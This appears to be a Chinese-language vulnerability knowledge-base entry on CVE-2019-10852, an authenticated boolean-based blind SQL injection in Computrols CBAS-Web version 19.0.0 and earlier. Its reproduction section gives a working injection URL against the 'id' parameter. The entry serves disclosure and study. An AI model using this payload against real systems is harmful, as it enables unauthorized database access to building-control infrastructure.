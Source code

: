 ```yaml
---
title: （CVE-2019-10852）Computrols CBAS Web SQL注入
id: zhfly2853
---
```


# （CVE-2019-10852）Computrols CBAS Web SQL注入

## 一、漏洞简介

Computrols CBAS-Web经过身份验证的基于布尔的盲SQL注入

## 二、漏洞影响

19.0.0及以下

## 三、复现过程

```
http://www.0-sec.org/cbas/index.php?m=servers&a=start_pulling&id=1 AND 2510 = 2510 
```